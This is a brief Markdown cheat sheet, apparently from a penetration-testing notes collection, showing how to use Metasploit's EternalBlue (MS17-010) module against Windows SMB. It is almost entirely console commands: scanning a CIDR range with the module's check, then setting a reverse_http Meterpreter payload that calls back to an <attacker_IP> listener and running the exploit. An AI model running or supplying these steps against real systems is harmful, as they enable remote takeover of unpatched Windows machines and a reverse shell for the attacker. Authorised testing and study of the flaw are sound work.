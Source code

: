 # Metasploit

TODO: Fill this info

## 01 - Scan IP address(es)

```
msf > use exploit/windows/smb/ms17_010_eternalblue
```

```
msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <IP>/<CIDR>
```

```
msf exploit(windows/smb/ms17_010_eternablue) > check
```

## 02 - Exploit

```
msf > use exploit/windows/smb/ms17_010_eternalblue

msf exploit(windows/smb/ms17_010_eternablue) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/smb/ms17_010_eternablue) > options

msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <target_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lhost <attacker_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lport <attacker_PORT>

msf exploit(windows/smb/ms17_010_eternablue) > run
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/03 - Network Ports/Remote Services/SMB|Vulnerability Assessment: SMB]]

### Sploitify

- [Sploitify: Eternalblue MS17-010](https://sploitify.haxx.it/exploits/2017/MS17-010/)